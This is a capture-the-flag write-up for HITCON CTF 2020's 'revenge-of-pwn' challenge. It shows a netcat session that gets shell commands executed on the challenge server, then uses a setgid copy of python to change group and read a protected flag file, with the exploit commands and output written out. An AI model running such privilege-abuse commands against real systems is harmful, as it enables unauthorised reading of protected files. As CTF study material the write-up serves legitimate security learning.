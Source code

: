 # revenge-of-pwn

> Have you ever thought those challenges you pwned may retaliate someday? nc 3.115.58.219 9427 revenge_of_pwn-255196bb99d75512732a4109f154103b4bc428e6e29e2cdcc69e44aee67ea75f.tar.gz

Categories:
* misc
* pwn

## Solution

```
$ nc 3.115.58.219 9427
ELF size? (MAX: 6144)
131
/home/deploy/secret_python_others_should_never_know -c '__import__("os").setgid(1001);print(open("/home/deploy/flag").read())' 1>&2
[*] Version of pwntools: 4.3.0
[x] Opening connection to 127.0.0.1 on port 1337
[x] Opening connection to 127.0.0.1 on port 1337: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 1337: Done
hitcon{use_pwntools_to_pwn_pwntools_^ovo^}
```

## Explanation

So basically I think we were supposed to [abuse pwntools `asm` function](https://github.com/FrenchRoomba/ctf-writeup-HITCON-CTF-2020/blob/master/revenge-of-pwn/README.md), but I'm pretty lazy

Since we basiclaly have a shell by sending `len(cmd) + "\n" + cmd` to the socket (it executes non-ELF without shebang as `bash`), I explored a little first:

```
$ ls -lah $HOME
-rwxr-sr-x 1 root exploiter 5.3M Nov 26 05:07 /home/deploy/secret_python_others_should_never_know
-rw-r----- 1 root exploiter 43 Nov 24 14:58 /home/deploy/flag
```

The setgid bit is set on `secret_python_others_should_never_know`, and it's owned by `exploiter`--and so is the flag! 

```
$ cat /etc/passwd | grep exploiter
exploiter:x:1001:1001:,,,:/home/exploiter:/bin/bash
```

So now we just run `secret_python_others_should_never_know` which is basically a copy of the `python3` binary:

```
$ secret_python_others_should_never_know
>>> import os
>>> os.setgid(1001)
>>> os.system('cat /home/deploy/flag')
```

(^ expanded payload). I also had to redirect stdout to stderr to see the output.

